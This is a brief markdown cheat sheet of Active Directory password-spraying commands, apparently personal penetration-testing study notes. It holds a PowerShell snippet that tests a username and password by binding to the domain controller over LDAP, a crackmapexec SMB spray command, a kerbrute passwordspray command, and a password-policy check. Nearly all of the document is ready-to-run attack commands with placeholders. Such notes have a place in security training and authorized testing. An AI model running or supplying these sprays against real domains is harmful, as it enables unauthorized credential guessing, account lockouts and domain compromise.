 # PASSWORD ATTACKS
#password_policies
```
net accounts
```

#spray_DirectoryEntry
```
# PASSWORD ATTACKS

$domainObj = [System.DirectoryServices.ActiveDirectory.Domain]::GetCurrentDomain()
$PDC = ($domainObj.PdcRoleOwner).Name
$SearchString = "LDAP://"
$SearchString += $PDC + "/"
$DistinguishedName = "DC=$($domainObj.Name.Replace('.', ',DC='))"
$SearchString += $DistinguishedName
New-Object System.DirectoryServices.DirectoryEntry($SearchString, "[user]", "[password]")

# If the password for the user account is correct, the object creation will be successful
```

#spray_crackmapexec
```
# slow and noisy, can lock accounts

crackmapexec smb [ip] -u [users file] -p '[password]' -d [domain] --continue-on-success
```

#spray_request_TGT
```
kinit

kerbrute
.\kerbrute_windows_amd64.exe passwordspray -d [domain] [usernames file] "[password]"

users file must be saved as ANSI
```